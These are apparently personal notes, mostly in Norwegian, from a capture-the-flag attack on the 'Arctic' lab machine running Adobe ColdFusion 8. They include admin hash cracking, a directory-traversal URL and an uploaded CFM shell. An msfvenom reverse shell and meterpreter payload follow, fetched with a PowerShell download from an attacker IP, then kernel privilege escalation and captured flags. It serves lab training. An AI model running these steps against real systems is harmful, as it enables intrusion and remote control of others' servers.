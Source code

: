 ## arctic 10.10.10.11

`135/tcp   open  msrpc`

`8500/tcp  open  fmtp`

`49154/tcp open  unknown`

Macromedia ColdFusion MX Server edition 6?

Adobe ColdFusion 8

får login med

`10.10.10.11:8500/CFIDE/administrator/enter.cfm?`

og passord prompt ved

`http://10.10.10.11:8500/CFIDE/wizards/common/_logintowizard.cfm`

[http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/](http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/)

avsløre en mappe. wooooooo

[http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl](http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl) for å vise versjon 8.0.1

\#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F\[\[E&gt;\[$\_6& \Q&gt;\[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

javascript:alert\(hex\_hmac\_sha1\(document.loginform.salt.value,document.loginform.cfadminPassword.value\)\)

51681279BE771DE147003FBA6A6E4E557F833282

sha1 decrypt = **happyday**

debugging and logging. add scheduled task -&gt; upload cfm shell

[https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html](https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html)

[https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html](http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html)

bra cfm shell her [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

`whoami > C:\ColdFusion8\wwwroot\out.txt`

**arctic/tolis**

kjøre kommandoer til jeg finner noe gøy

Microsoft Windows **Server** **2008 R2 Standard x64**

/c dir "c:\coldfusion8\wwwroot\CFIDE" &gt; c:\coldfusion8\wwwroot\out.txt

/c dir "c:\coldfusion8\lib\neo-datasource.xml" &gt; c:\coldfusion8\wwwroot\out.txt

passord wsagavF3noHWGA8xe7rd4w

/c dir C:\Users\Administrator &gt; c:\coldfusion8\wwwroot\out.txt - ingenting

/c dir "C:\Users\All Users\Desktop" &gt; c:\coldfusion8\wwwroot\out.txt

/c type "c:\users\tolis\Desktop\user.txt" &gt; c:\coldfusion8\wwwroot\out.txt

```
dir c:\ /s /b /o:gn - viser alle fier i subdirs
```

får ut **02650d3a69a70780c302e146a6cb96f3**

prøvd flere reverse shells uten hell

prøvd å laste opp netcat også, men no dice

jsp shell funker. men bare med netcat?

ssl error i metasploit

tasklist /v

fant en unquoted service path for coldfusion8

`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

`ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe`

sc stop "ColdFusion 8 .NET Service"

funket ikke

whoami &gt; c:\coldfusion8\wwwroot\out.txt

kanskje applocker er enablet?

LFI?

[http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en](http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../Users/Tolis/Desktop/user.txt en)

% på slutten der

In the cfexec.cfm I executed c:\windows\system32\cmd.exe /c blablabla

1. That blablabla is a command obtanied with:
2. msfvenom -p windows/powershell\_reverse\_tcp lhost=YOURIP lport=PORT -f exe \| strings \| grep powershell &gt; out.ps1 - copypaste this
3. Before you execute that, you should have obviusly a handler on your machine.
4. With this you have a powershell shell like Tolis user.
5. Now you have to obtain meterpreter. Create a payload like this
6. msfvenom -p windows/meterpreter\_reverse\_tcp lhost YOURIP lport=PORT -f exe 
   &gt;
    a.exe
7. Move It to /var/www/html on your system and start your http server.
8. In the powershell shell execute:
9. $client = new-object System.Net.WebClient
10. $client.DownloadFile\("[http://10.10.12.238/a.exe](http://10.10.12.238/a.exe)", "c:\users\tolis\a.exe"\)
11. And now start a handler on your machine and execute on powershell
12. .\a.exe
13. And now you will have a meterpreter session like Tolis.

migrate to some other x64 process.

exploit/windows/local/ms10\_092\_schelevator no work

ms16-032 no work

rotten potato? no work

$client.DownloadFile\("[http://10.10.12.238/a.exe](http://10.10.12.238/a.exe)", "c:\users\tolis\a.exe"

root ce65ceee66b2b5ebaff07e50508ffb90

download c:\Users\tolis\Desktop\user.txt

user.txt **02650d3a69a70780c302e146a6cb96f3**

use exploit suggester with x86 to reveal some which also work on x64

use exploit/windows/local/ms14\_058\_track\_popup\_menu

set target 1 \(x64\)

set payload x64 meterpreter

root.txt.txt **4bf12b963da1b30cc93496f617f7ba7c**



**huske å teste suggester med x86 selv på x64 maskiner!**

